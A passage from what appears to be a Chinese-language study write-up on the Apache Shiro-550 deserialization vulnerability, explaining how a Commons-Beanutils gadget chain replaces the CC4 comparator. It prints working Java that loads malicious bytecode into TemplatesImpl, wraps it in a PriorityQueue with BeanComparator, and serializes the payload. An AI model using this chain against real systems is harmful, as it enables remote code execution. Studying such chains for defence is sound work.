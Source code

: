 其中的ComparableComparator类来自于CC依赖，在shiro原生中是没有的，所以我们就用了一个即在CB依赖中有，又继承了序列化接口的类。

接下来寻找调用compare方法的类，是不是很熟悉了？

没错，在之前的CC4链的学习中，我们就用了compare方法来触发ChainedTransformer的transform方法，那么我们去再看一看那个compare方法：

<img src="JAVA%E5%AE%89%E5%85%A8shiro-550%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/1711200539928.png" alt="1711200539928" style="zoom:67%;" />

可见其不仅调用了transform方法，还调用了compare方法，我们只需要把decorated传成我们构造好的BeanComparator类的实例就好了，只需要把CC4中传入priorityQueue的transformingComparator改成beanComparator就好了，接下来的流程就和CC4后边一样了，我们直接拿过来：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
BeanComparator beanComparator = new BeanComparator("outputProperties", new AttrCompare());
TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
priorityQueue.add(templates);
priorityQueue.add(2);
Class<PriorityQueue> c = PriorityQueue.class;
Field comparatorField = c.getDeclaredField("comparator");
comparatorField.setAccessible(true);
comparatorField.set(priorityQueue,beanComparator);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\shiro_CB.txt"));
oos.writeObject(priorityQueue);
```

最后打一下看看：
